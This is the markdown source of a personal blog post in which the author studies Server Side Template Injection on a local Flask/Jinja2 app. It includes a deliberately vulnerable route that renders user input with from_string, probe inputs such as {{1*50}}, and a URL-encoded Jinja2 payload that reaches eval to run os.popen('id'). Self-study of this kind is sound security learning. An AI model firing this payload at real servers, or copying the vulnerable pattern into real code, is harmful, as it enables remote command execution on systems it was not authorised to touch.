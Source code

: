 ```yaml
---
layout: post
title:  Server Side Template Injection (SSTI)
date: 2019-1-5 1:118:6.000000000 +08:00
---
```

Hello everybody
from this time i will write my blog use English ,maybe this blog have a lot of grammatical errors ,but i want to try it ,so let we start 

# Original
My high school must provide space to art exam , so i am in vacation now , at this time i remember last weekend,the tweet `https://twitter.com/LooseSecurity/status/1078278986487205891` 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti.png"|ssti}})
when i first saw the `SSTI` i just know this is an injection vulnerability . Now i have 2 days time , i think i should do something to study `SSTI` 

# What is SSTI
`SSTI` Server Side Template Injection , one of the injection attack . the `SSTI` sometime can getshell !
```php
$output=$twig->render('Dear '{first_name},array("first_name" => $user.firstname));
```
```javascript
Dear {$user.first_name}
```

sometime i can see the webpage, enter the data,the server gives us an echo,maybe it using template to show it. bug when these time i always try to find XSS vulnerability .in fact we can try `SSTI` .
 we can input payload like `{{1*50}}` input this payload  ,if the `50` in response,there is a high probability of a vulnerability. Because the template may have processed the data ,if the error in response don't give up maybe you need do closure the template, you can try `test }}{{1*50}}`
we use the `{{1*50}} ` to verify that this location uses a template.
it's too boring to say ,so let we have a try

you need to prepare `Python`and`curl`and`flask`and`jinja2`
```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():
    name = request.values.get('name')
    output = Jinja2.from_string('Hello ' + name + '!').render()
    return output

if __name__ == "__main__":
    app.run(host='127.0.0.1', port=820)
```
let we run this script 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti1.png"|ssti}})
use curl to send get requests 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti2.png"|ssti}})
try to injection
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti3.png"|ssti}})
i send `{{config}}` but something wrong it response status code is `500` what happen???
i know the config is not support ,so i have to change the i send 
`{{self.__dict__}}`
it is work 
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti4.png"|ssti}})
so i continue to try execution command 
```python
%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```
we need urlencode and send the payload to target
![ssti]({{ "http://c1h2e1.oss-cn-qingdao.aliyuncs.com/image/ssti/ssti5.png"|ssti}})


What fun!


# Using tools SSTI
`https://github.com/epinna/tplmap`
tplmap 


# END
C1h2e1 leading to world wide
i love pentest
 
# Reference 
```
https://www.youtube.com/watch?v=3cT0uE7Y87s
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections
https://blog.csdn.net/qq_33020901/article/details/83036927
https://portswigger.net/blog/server-side-template-injection
```







